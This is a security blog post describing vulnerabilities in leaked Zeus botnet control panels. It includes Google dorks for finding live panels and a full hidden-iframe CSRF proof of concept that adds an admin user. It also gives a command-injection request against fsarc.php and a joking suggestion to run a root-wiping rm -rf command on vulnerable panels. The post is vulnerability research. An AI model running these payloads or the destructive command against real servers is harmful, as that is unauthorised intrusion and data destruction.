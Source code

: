 ```yaml
---           
layout: post
title: Attacking financial malware botnet panels - Zeus
date: 2019-10-08 14:00:32 UTC
updated: 2019-10-08 14:00:32 UTC
comments: false
categories: botnet remote code execution Zeus
---
```

<div style="text-align: justify;">I played with leaked financial malware recently. When I saw these panels are written in PHP, my first idea was to hack them. The results are the work of one evening, please don't expect a full pentest report with all vulns found :-)</div><div style="text-align: justify;"><br/></div><div style="text-align: justify;">The following report is based on Zeus 2.0.8.9, which is old, but I believe a lot of Zeus clones (and C&amp;C panels) depend on this code.</div><div style="text-align: justify;"><br/></div><div style="text-align: justify;">First things first, here are some Google dorks to find Zeus C&amp;C server panel related stuff:</div><div style="text-align: justify;"></div><ul><li>inurl:cp.php?m=login - this should be the login to the control panel</li><li>inurl:_reports/files  - in these folders you can find the stolen stuff, pretty funny if it gets indexed by Google</li><li>inurl:install/index.php - this should be deleted, but I think this is useless now.</li></ul><br/><div class="separator" style="clear: both; text-align: center;"><a href="https://z6543.github.io/_img/Zeus1.png" src="https://z6543.github.io/_img/Zeus1.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="166" src="https://z6543.github.io/_img/Zeus1.png" width="400"/></a></div><br/><h3>Boring vulns found</h3><ul><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Credentials_Transported_over_an_Encrypted_Channel_(OWASP-AT-001)">Clear text HTTP login</a> - you can sniff the login password via MiTM, or steal the session cookies</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_password_policy_(OWASP-AT-008)">No password policy</a> - admins can set up really weak passwords</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_lock_out_mechanism_(OWASP-AT-004)">No anti brute-force</a> - you can try to guess the admin's password. Default username is admin</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Vulnerable_Remember_Password_(OWASP-AT-006)">Password autocomplete enabled</a> - boring</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_cookies_attributes_(OWASP-SM-002)">Missing HttpOnly flag on session cookie</a> - it could be nice if I could find any XSS. I need more time to find one!</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_CSRF_(OWASP-SM-005)">No CSRF protection</a> - except on the password change, where the old password is needed :-( boring</li></ul>Update: You can use the CSRF to create a new user with admin privileges:<br/><div><div><pre class="prettyprint linenums lang-html">&lt;html&gt;<br/>&lt;head&gt;<br/>    &lt;title&gt;&lt;/title&gt;<br/>&lt;/head&gt;<br/>&lt;body&gt;<br/>    &lt;pre&gt;<br/>  This is a CSRF POC to create a new admin user in Zeus admin panels.<br/>  Username: user_1392719246 Password: admin1<br/>  You might change the URL from 127.0.0.1.<br/>  Redirecting in a hidden iframe in &lt;span id="countdown"&gt;10&lt;/span&gt; seconds.  <br/>&lt;/pre&gt;<br/>&lt;iframe id="csrf-frame" name="csrf-frame" style="display: none;"&gt;&lt;/iframe&gt;<br/>    &lt;form action="http://127.0.0.1/cp.php?m=sys_users&amp;amp;new" id="csrf-form" method="post" name="csrf-form" target="csrf-frame"&gt;<br/> &lt;input name="name" type="hidden" value="user_1392719246" /&gt; <br/> &lt;input name="password" type="hidden" value="admin1" /&gt; <br/> &lt;input name="status" type="hidden" value="1" /&gt; <br/> &lt;input name="comment" type="hidden" value="PWND!" /&gt;<br/> &lt;input name="r_botnet_bots" type="hidden" value="1" /&gt; <br/> &lt;input name="r_botnet_scripts" type="hidden" value="1" /&gt; <br/> &lt;input name="r_botnet_scripts_edit" type="hidden" value="1" /&gt; <br/> &lt;input name="r_edit_bots" type="hidden" value="1" /&gt; <br/> &lt;input name="r_reports_db" type="hidden" value="1" /&gt; <br/> &lt;input name="r_reports_db_edit" type="hidden" value="1" /&gt; <br/> &lt;input name="r_reports_files" type="hidden" value="1" /&gt;<br/> &lt;input name="r_reports_files_edit" type="hidden" value="1" /&gt;<br/> &lt;input name="r_reports_jn" type="hidden" value="1" /&gt; <br/> &lt;input name="r_stats_main" type="hidden" value="1" /&gt; <br/> &lt;input name="r_stats_main_reset" type="hidden" value="1" /&gt; <br/> &lt;input name="r_stats_os" type="hidden" value="1" /&gt; <br/> &lt;input name="r_system_info" type="hidden" value="1" /&gt; <br/> &lt;input name="r_system_options" type="hidden" value="1" /&gt;<br/> &lt;input name="r_system_user" type="hidden" value="1" /&gt; <br/> &lt;input name="r_system_users" type="hidden" value="1" /&gt;<br/>    &lt;/form&gt;<br/>&lt;script type="text/javascript"&gt;<br/> window.onload=function(){ <br/>  var counter = 10;<br/>  var interval = setInterval(function() {<br/>   counter--;<br/>   document.getElementById('countdown').innerHTML = counter;<br/>   if (counter == 0) {<br/>    redirect();<br/>    clearInterval(interval);<br/>   }<br/>  }, 1000);<br/> };<br/>    function redirect() {<br/>  document.getElementById("csrf-form").submit();<br/>    }<br/>    &lt;/script&gt;<br/>&lt;/body&gt;<br/>&lt;/html&gt;<br/></pre><ul><li style="text-align: justify;">MD5 password - the passwords stored in MySQL are MD5 passwords. No <a href="http://www.unlimitednovelty.com/2012/03/dont-use-bcrypt.html">PBKDF2, bcrypt, scrypt, salt</a>, whatever. MD5.</li><li style="text-align: justify;"><a href="http://www.contextis.com/research/tools/clickjacking-tool/">ClickJacking</a> - really boring stuff</li><li style="text-align: justify;">Remember me (MD5 cookies) - a very bad idea. In this case, the remember me function is implemented in a way where the MD5 of the password and MD5 of the username is stored in a cookie. If I have XSS, I could get the MD5(password) as well.</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OWASP-DV-005)">SQLi</a> - although concatenation is used instead of parameterized queries, and addslashes are used, the integers are always quoted. This means it can be hacked only in case of special encoding like GB/Big5, pretty unlikely.</li></ul><br/><h3>Whats good news (for the C&amp;C panel owners)</h3><br/>The following stuff looks good, at least some vulns were taken seriously:<br/><ul><li>The system directory is protected with .htaccess deny from all.</li><li>gate.php - this is the "gate" between the bots and the server, this PHP is always exposed to the Internet. The execution of this PHP dies early if you don't know the key. But you can <a href="http://blog.threatexpert.com/2009/09/time-to-revisit-zeus-almighty.html">get the key</a> from the binary of this specific botnet (<a href="http://mnin.blogspot.be/2011/09/abstract-memory-analysis-zeus.html">another URL how to do this</a>). If you have the key, then you can fill the database with garbage, but that's all I can think of now.</li><li>Anti <a href="https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OWASP-DV-001)">XSS</a>: the following code is used almost everywhere</li><pre class="prettyprint lang-js">return htmlspecialchars(preg_replace('|[\x00-\x09\x0B\x0C\x0E-\x1F\x7F-\x9F]|u', ' ', $string), ENT_QUOTES, 'UTF-8');</pre>My evil thought was to inject malicious bot_id, but it looks like it has been filtered everywhere. Sad panda.</ul><br/><h3>What's really bad news (for the C&amp;C panel owners)</h3><br/>And the best vuln I was able to find, <a href="https://www.owasp.org/index.php/Testing_for_Command_Injection_(OWASP-DV-013)">remote code execution</a> through command injection (happy panda), but only for authenticated users (sad panda).<br/><br/>The vulnerable code is in system/fsarc.php:<br/><br/><div class="separator" style="clear: both; text-align: center;"><a href="https://z6543.github.io/_img/Zeus2.png" src="https://z6543.github.io/_img/Zeus2.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="292" src="https://z6543.github.io/_img/Zeus2.png" width="400"/></a></div><pre class="prettyprint lang-php">function fsarcCreate($archive, $files){<br/>   ...<br/>   $archive .= '.zip';<br/>   $cli = 'zip -r -9 -q -S "'.$archive.'" "'.implode('" "', $files).'"';<br/>   exec($cli, $e, $r);<br/>}</pre><br/>The exploit could not be simpler: <br/><pre class="prettyprint lang-html">POST /cp.php?m=reports_files&amp;path= HTTP/1.1<br/>...<br/>Content-Type: application/x-www-form-urlencoded<br/>Content-Length: 60<br/><br/>filesaction=1&amp;files%5B%5D=files"||ping%20-n%2010%20127.0.0.1<br/></pre>because the zip utility was not found on my Windows box. You can try to replace || with &amp;&amp; when attacking Windows (don't forget to URL encode it!), or replace || with ; when attacking Linux. You can also link this vulnerability with the CSRF one, but it is unlikely you know both the control panel admin, and the control panel URLs. Or if this is the case, the admin should practice better OPSEC :)<br/>Recommendation: use <a href="http://www.php.net/manual/en/function.escapeshellcmd.php">escapeshellcmd</a> next time.<br/><br/>Next time you find a vulnerable control panel with a weak password, just rm -rf --no-preserve-root / it ;-)<br/><br/>That's all folks!<br/>Special greetz to Richard (XAMPP Apache service is running as SYSTEM ;-) )<br/><br/><b>Update:</b> Looks like the gate.php is worth to investigate if you know the RC4 key. <a href="http://cybercrime-tracker.net/zeus.php">You can upload a PHP shell :)</a></div></div>